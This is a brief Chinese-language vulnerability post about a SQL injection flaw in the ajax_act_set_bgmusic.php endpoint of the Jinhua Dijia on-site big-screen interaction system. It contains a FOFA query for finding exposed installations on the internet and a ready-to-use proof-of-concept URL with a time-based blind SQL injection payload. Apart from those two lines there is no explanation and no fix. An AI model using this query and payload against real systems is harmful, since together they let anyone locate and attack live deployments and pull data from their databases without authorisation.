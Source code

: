 # 金华迪加现场大屏互动系统ajax_act_set_bgmusic.php接口存在SQL注入漏洞

清晨 

[摸鱼划水](javascript:void(0);)

FOFA

```
body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"
```

POC

```
/wall/ajax_act_set_bgmusic.php?bgmusicstatus=1&plugname=1"+or+if(length(database())>5,sleep(1),1)--+
```

